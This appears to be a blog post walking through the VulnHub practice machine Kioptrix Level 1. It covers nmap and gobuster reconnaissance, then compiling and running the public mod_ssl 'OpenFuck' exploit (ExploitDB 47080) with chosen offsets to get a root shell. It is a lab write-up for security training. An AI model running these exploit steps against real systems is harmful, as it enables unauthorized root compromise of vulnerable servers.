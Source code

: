 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

```nmap -T5 <LHOST>/24```

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

```nmap -sC -sV -oA nmap x.x.x.104```

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

```gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml```

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

```searchsploit mod_ssl```

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

```apt-get install libssl-dev```

It also explains how to compile

```gcc -o exploit 47080.c -lcrypto```

Now we need to find out how to use it properly, so run the script

```./exploit```

It presents us with:

```
: Usage: ./script target box [port] [-c N

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know
and a long list of supported offsets to place instead of 'target'
```

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

```
./exploit 0x6a x.x.x.104 -c 40
```


Unsucessful

```./exploit 0x6b x.x.x.104 -c 40```

It Works! We are now root

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine

### TTY shell

unnecessary step but would prove useful if we had any other steps to perform.

```/bin/bash -i```


